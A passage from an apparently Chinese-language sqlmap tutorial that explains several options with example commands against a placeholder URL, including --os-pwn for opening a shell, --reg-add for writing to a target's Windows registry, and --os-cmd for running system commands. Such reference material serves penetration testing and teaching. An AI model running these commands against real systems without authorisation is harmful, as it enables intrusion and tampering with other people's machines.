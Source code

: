 ```
sqlmap -u "http://xxx.com/xxx.php?id=1" --os-pwn
```



## 0x48 --reg-read、--reg-add、--reg-del、--reg-key、--reg-value、--reg-data、--reg-type
注册表（Registry，繁体中文版Windows操作系统称之为登录档）是Microsoft Windows中的一个重要的数据库，用于存储系统和应用程序的设置信息。早在Windows 3.0推出OLE技术的时候，注册表就已经出现。随后推出的Windows NT是第一个从系统级别广泛使用注册表的操作系统。但是，从Microsoft Windows 95操作系统开始，注册表才真正成为Windows用户经常接触的内容，并在其后的操作系统继续沿用至今。

- --reg-read 读取注册表信息，需要补充下面key参数、
- --reg-add 添加注册表信息，需要补充key、value、data、type等参数、
- --reg-del 删除注册表信息，需要补充key参数、
- --reg-key、--reg-value、--reg-data、--reg-type

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
```



## 0x49 -s、--flush-session
sqlmap加载sqlite会话文件。sqlmap自动为每个目标创建持久会话sqlite文件，位于专用输出目录中（output），其中存储会话回复所需的所有数据。如果用户想显示地设置会话文件位置（例如在一个位置为多个目标存储会话数据），可以使用此选项-s。如果想重新探测，不使用保存的会话结果，那就用 --flush-session。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" -s session.sqlite
```


## 0x4a -t

保存HTTP文本文件。这个选项需要指定文本文件的参数来写入sqlmap - HTTP(s) 请求和HTTP(s)相应生成的所有HTTP(s)流量。这主要用于调试目的——当您向开发人员提供一个潜在的bug报告时，也发送这个文件。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" -t /root/Desktop/target1.txt
```



## 0x4b --batch
用户交互都自动选择默认选择选项。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --batch
```



## 0x4c --os-cmd
执行系统命令。

--os-cmd="命令"
